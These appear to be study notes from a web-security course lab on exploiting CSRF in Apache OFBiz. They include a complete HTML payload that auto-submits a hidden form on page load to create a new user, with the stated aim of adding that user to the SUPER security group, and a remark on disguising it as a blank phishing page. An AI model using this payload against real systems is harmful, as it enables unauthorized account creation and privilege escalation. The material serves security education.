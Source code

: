 The POST body and headers do not contain anything that resembles a CSRF token, so we should be able to exploit this functionality as well. We will exploit what we have discovered in the next section.

-----------------------
#### 6.4.3 Apache OFBiz - Exploitation
Now that we've inspected the application and determined that it is likely vulnerable to CSRF, let's work on how we can exploit the vulnerability. At a high-level, we want to copy the HTML forms from the application in to pages we can host on our own server. We'll populate the forms with our own data and make the forms submit on page load, so the victim user must only open the page for our exploit to work. We'll be playing the roles of attacker and victim in this section. Our overall goal is to exploit CSRF to create a new user and then assign them to the `SUPER` security group.

Let's start by building a small HTML page to exploit the CSRF vulnerabilities in this application to add a new user. We'll start with the basic structure of a form element and JavaScript to submit the form on page load. Let's create a file named `ofbiz.html` in `/var/www/html` so that later on, we can use Apache to serve the page.

CSRF Payload:
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>
```

Now that we have the basic structure, let's add the input elements. The `POST` request that our page generates needs to match the baseline request from the web application. We will need to add input elements, one for each key value pair in the original request, inside the the form element.

The code `html` code is a transformation from the `/webtools/control/createUserLogin` field
![[Pasted image 20240812202522.png]]
Completed `CSRF Payload` - the `input` code has to go inside the `</form>`
```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
    <input type="hidden" name="enabled">
    <input type="hidden" name="partyId">
    <input type="hidden" name="userLoginId" value="csrftest">
    <input type="hidden" name="currentPassword" value="password">
    <input type="hidden" name="currentPasswordVerify" value="password">
    <input type="hidden" name="passwordHint">
    <input type="hidden" name="requirePasswordChange" value="N">
    <input type="hidden" name="externalAuthId">
    <input type="hidden" name="securityQuestion">
    <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Created `ofbiz.html`
![[Pasted image 20240812203012.png]]
copied the file to `/var/www/html`
![[Pasted image 20240812203147.png]]
While we won't be going into all the specifics of creating a realistic phishing page, we will use hidden input fields to disguise our form. Our page will appear blank when opened in a browser.
